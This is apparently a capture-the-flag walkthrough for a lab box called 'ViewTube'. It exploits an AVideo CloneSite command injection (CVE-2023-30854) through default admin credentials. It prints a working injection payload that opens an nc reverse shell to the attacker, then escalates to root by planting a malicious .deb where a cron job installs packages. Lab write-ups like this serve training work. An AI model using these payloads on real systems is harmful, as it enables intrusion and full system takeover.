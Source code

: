 
#ViewTube
IP = 10.0.160.161
Port = 80

#Found_exploit
link = https://github.com/WWBN/AVideo/security/advisories/GHSA-6vrj-ph27-qfp3
CVE = CVE-2023-30854

Host a python server under /var/www/html/plugin/CloneSite/ which contains the cloneServer.json.php file 

#Credentials
username = admin
password = admin

![[Pasted image 20241013224348.png]]
			# figure of site in admin pane

#Vuln_path
Admin Panel --> Miscellaneous --> Plugins --> CloneSite

![[Pasted image 20241013225010.png]]

#Payload
```bash
http://10.10.6.78/cloneServer.json.php;nc$IFS'10.10.6.78'$IFS'9999'$IFS-e$IFS/bin/sh;#
```
Edit Parameter and paste in the payload. # **NOTE:** make sure you've set up your listener.



#Inital_Access
After getting shell, do all manual enumerations. When you find nothing, send `pspy64` to the machine. You would see some cron job  that runs this command;
```sh
dpkg --force-all -i /tmp/updated-dpks/*.deb
```

![[Pasted image 20241013231454.png]]

Meaning it runs and installs a .deb file in updated-dpks folder but look under the 'tmp' file there is no file named that.

#Exploitation
This means we have the advantage of creating a new folder `updated-dpks`.
	***create a malicious deb file inside of `/tmp/updated-dpks/` *
*** HackerGPT is the better half for the exploit file :)

After properly setting everything, spawn a `nc` listener on your machine with the specified port to receive the root callback. 


#Have_Fun_Hacking_:)